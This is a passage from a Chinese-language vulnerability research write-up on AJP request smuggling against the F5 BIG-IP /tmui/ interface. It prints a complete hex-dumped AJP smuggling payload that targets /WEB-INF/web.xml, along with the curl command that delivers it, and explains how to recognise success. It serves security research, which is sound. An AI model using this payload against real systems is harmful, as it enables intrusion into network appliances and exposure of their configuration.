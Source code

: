 /tmui/这个目录是不是看起来很熟悉，这就是BIG-IP的流量管理用户页面，感觉离漏洞又近了一步。

### AJP POC 测试

现在的问题就变成了如何利用 AJP 请求走私，我们直接复用网上的 AJP 走私 POC 进行测试。

```bash
ubuntu@ubuntu:~$ file poc
poc: data
ubuntu@ubuntu:~$ xxd poc
00000000: 0008 4854 5450 2f31 2e31 0000 012f 0000  ..HTTP/1.1.../..
00000010: 0931 3237 2e30 2e30 2e31 00ff ff00 0161  .127.0.0.1.....a
00000020: 0000 5000 0000 0a00 216a 6176 6178 2e73  ..P.....!javax.s
00000030: 6572 766c 6574 2e69 6e63 6c75 6465 2e72  ervlet.include.r
00000040: 6571 7565 7374 5f75 7269 0000 012f 000a  equest_uri.../..
00000050: 0022 6a61 7661 782e 7365 7276 6c65 742e  ."javax.servlet.
00000060: 696e 636c 7564 652e 7365 7276 6c65 745f  include.servlet_
00000070: 7061 7468 0001 532f 2f2f 2f2f 2f2f 2f2f  path..S/////////
00000080: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000090: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000100: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000110: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000120: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000130: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000140: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000150: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000160: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000170: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000180: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000190: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001c0: 2f2f 2f2f 2f2f 2f2f 2f2f 000a 001f 6a61  //////////....ja
000001d0: 7661 782e 7365 7276 6c65 742e 696e 636c  vax.servlet.incl
000001e0: 7564 652e 7061 7468 5f69 6e66 6f00 0010  ude.path_info...
000001f0: 2f57 4542 2d49 4e46 2f77 6562 2e78 6d6c  /WEB-INF/web.xml
00000200: 00ff
```

直接使用 AJP 请求走私的方式进行请求，这里要注意，所有走私请求类的漏洞利用都无法稳定利用，所以没利用成功可以多试几次。

这里我们请求`/tmui/login.jsp`这个路由，正常请求会返回 200，如果请求走私成功，则会返回 404，这里我们可以看到，试过几次后成功让服务器返回 404，说明 AJP 请求走私问题是存在的。

```bash
curl -k -i https://192.168.1.1:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked' --data-binary @poc
```
